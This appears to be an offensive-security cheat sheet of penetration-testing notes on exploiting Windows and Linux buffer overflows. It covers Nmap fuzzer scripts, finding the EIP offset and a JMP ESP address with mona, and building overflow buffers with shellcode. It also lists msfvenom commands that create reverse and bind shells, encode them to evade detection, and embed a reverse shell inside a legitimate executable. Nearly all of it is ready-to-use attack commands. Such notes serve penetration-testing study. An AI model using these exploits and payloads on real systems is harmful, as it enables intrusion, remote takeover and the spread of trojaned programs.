# DEP and ASLR

## Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

### NMap Fuzzer List

https://nmap.org/nsedoc/categories/fuzzer.html

### NMap HTTP Form Fuzzer

> nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

### Nmap DNS Fuzzer

> nmap --script dns-fuzz --script-args timelimit=2h $ip -d

### MSFvenom

https://www.offensive-security.com/metasploit-unleashed/msfvenom/

## Windows Buffer Overflows

### Controlling EIP

> locate pattern_create
>
>  pattern_create.rb -l 2700
>
>  locate pattern_offset
>
>  pattern_offset.rb -q 39694438
>
> Verify exact location of EIP - [\*] Exact match at offset 2606
>
> buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
>
> Check for �Bad Characters� - Run multiple times 0x00 - 0xFF
>
> Use Mona to determine a module that is unprotected
>
> Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
>
> Use NASM to determine the HEX code for a JMP ESP instruction
>
> - /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
>
> JMP ESP
>
> 00000000 FFE4 jmp esp
>
> Run Mona in immunity log window to find (FFE4) XEF command
>
> !mona find -s "\xff\xe4" -m slmfc.dll
>
> - found at 0x5f4a358f - Flip around for little endian format
>
> buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

### MSFVenom to create payload

> msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c �e x86/shikata_ga_nai -b "\x00\x0a\x0d"
>
> Final Payload with NOP slide
>
> buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

### Create a PE Reverse Shell

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -o shell\_reverse.exe

### Create a PE Reverse Shell and Encode 9 times with Shikata\_ga\_nai

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -o shell\_reverse\_msf\_encoded.exe

### Create a PE reverse shell and embed it into an existing executable

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell\_reverse\_msf\_encoded\_embedded.exe

### Create a PE Reverse HTTPS shell

msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip LPORT=443 -f exe -o met\_https\_reverse.exe

## Linux Buffer Overflows

### Run Evans Debugger against an app

edb --run /usr/games/crossfire/bin/crossfire

### ESP register points toward the end of our CBuffer

> add eax,12
>
> jmp eax
>
> 83C00C add eax,byte +0xc
>
> FFE0 jmp eax
>
> Check for �Bad Characters� Process of elimination - Run multiple times 0x00 - 0xFF
>
> Find JMP ESP address
>
> - "\\x97\\x45\\x13\\x08" \# Found at Address 08134597
>
> crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" + "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"
>
> msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b "\\x00\\x0a\\x0d\\x20" �e x86/shikata\_ga\_nai
>
> Connect to the shell with netcat:
>
>nc -v $ip 4444
